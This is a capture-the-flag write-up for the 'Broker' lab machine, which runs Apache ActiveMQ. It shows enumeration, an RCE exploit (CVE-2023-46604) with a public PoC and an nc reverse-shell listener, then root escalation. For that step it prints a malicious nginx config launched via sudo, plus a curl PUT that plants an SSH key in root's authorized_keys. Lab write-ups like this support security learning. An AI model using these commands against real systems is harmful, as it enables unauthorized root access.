










# Broker Writeup

## About Broker
Broker is an easy difficulty `Linux` machine hosting a version of `Apache ActiveMQ`. Enumerating the version of `Apache ActiveMQ` shows that it is vulnerable to `Unauthenticated Remote Code Execution`, which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a `sudo` misconfiguration allowing the `activemq` user to execute `sudo /usr/sbin/nginx`, which is similar to the recent `Zimbra` disclosure and is leveraged to gain `root` access.

## Foothold
First of all, we spawn the target and nmap using :
```bash
nmap 10.10.11.243 -sV -sC -p-
```
There are a few common open ports (22, 80, ...), and we also get this :
<div style="text-align: center;">
    
</div>
<!--  -->

Searching for ActiveMQ 5.15.15 exploit, I got this [CVE-2023-46604](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46604). Then, I used this [repository](https://github.com/X1r0z/ActiveMQ-RCE) code to do remote code execution.

I edited the poc.xml to our target IP and spawn interactive shell as follows :
<div style="text-align: center;">
    
</div>
<!--  -->

Then, I start a python server by
```python
python -m http.server 8000
```
and a nc listener on another terminal :
```bash
nc -lvnp 1443
```
After that, we can finally run the exploit
<div style="text-align: center;">
    
</div>
<!--  -->

Back to our listener, we can see that we are connected to activemq user shell.
<div style="text-align: center;">
    
</div>
<div style="text-align: center;">
    
</div>
<!-- 
 -->
<br>
and get the user flag :D!

## Privilege Escalation
I tried to run linpeas at first, but nothing is interesting. Then, using ```sudo -l```, we get
<div style="text-align: center;">
    
</div>
<!--  -->

With this, I searched for privilege escalations using `/usr/sbin/nginx`. 

We utilize ``ngx_http_dav_module`` to write our public SSH key into the root user's authorized_keys file. We start by creating the malicious NGINX configuration file `pwn.conf`:

```bash
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
    server {
        listen 1330;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

and our script to run the nginx config : 
```bash
cat << EOF> /tmp/pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
    server {
        listen 1330;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
EOF
sudo nginx -c /tmp/pwn.conf
```
Since I created it in my local, I used wget to transfer to target :
<div style="text-align: center;">
    
</div>
<!--  -->

Then, we can run the script by
```bash
chmod +x pwn.sh; ./pwn.sh;
```
We can use `ss -tlpn` to verify our configuration is successful.
<div style="text-align: center;">
    
</div>
<!--  -->

and yay, we now can write our public key to root's authorized keys by
```bash
curl -X PUT 10.10.11.243:1330/root/.ssh/authorized_keys -d "$(cat root.pub)"
```
and ssh using our generated key earlier
```bash
ssh root@10.10.11.243 -i root -T
```
I used `-T` flag since it keeps telling me pseudo-terminal will not be allocated because stdin is not a terminal. So, `-T` will disable pseudo-terminal allocation.
<div style="text-align: center;">
    
</div>
<!--  -->

Here, we finally get the flag :D <br>
<div style="text-align: center;">
    
</div>
<!--  -->
